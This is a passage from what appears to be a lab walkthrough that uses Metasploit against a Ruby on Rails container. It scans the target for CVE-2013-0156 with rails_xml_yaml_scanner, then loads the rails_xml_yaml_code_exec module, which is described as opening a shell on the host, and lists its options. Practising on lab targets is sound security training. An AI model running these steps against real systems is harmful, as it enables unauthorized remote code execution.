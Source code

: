 Then `set` the `RHOSTS` and `RPORT` options.

```bash
msf auxiliary(rails_xml_yaml_scanner) > set RHOSTS rails
RHOSTS => rails

msf auxiliary(rails_xml_yaml_scanner) > set RPORT 8080
RPORT => 8080
```

Now we are ready to `run` the vulnerability scanner.

```bash
msf auxiliary(rails_xml_yaml_scanner) > run

[+] 172.18.0.2:8080 is likely vulnerable due to a 500 reply for invalid YAML
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Our output indicates that the host is likely vulnerable to [CVE-2013-0156]. The scanner was able to produce a 500 response simply by sending an invalid YAML request. Let's `back` out of the scanner module and move on to the exploit.

```bash
msf auxiliary(rails_xml_yaml_scanner) > back
msf >
```

### Exploit

For the exploit, we will use another Metasploit module: `exploit/multi/http/rails_xml_yaml_code_exec`. This module attempts to create and connect to a `DRb` server using a specially crafted YAML request. If it is successful, we will be given a shell directly into the Rails host.

If you are still in `msfconsole`, start by activating the module and viewing its options.

```bash
msf > use exploit/multi/http/rails_xml_yaml_code_exec

msf exploit(rails_xml_yaml_code_exec) > options

Module options (exploit/multi/http/rails_xml_yaml_code_exec):

   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   HTTP_METHOD  POST             yes       HTTP Method (Accepted: GET, POST, PUT)
   Proxies                       no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST                         yes       The target address
   RPORT        80               yes       The target port (TCP)
   SSL          false            no        Negotiate SSL/TLS for outgoing connections
   URIPATH      /                yes       The path to a vulnerable Ruby on Rails application
   VHOST                         no        HTTP server virtual host
```


[CVE-2013-0156]: http://www.cvedetails.com/google-search-results.php?q=2013-0156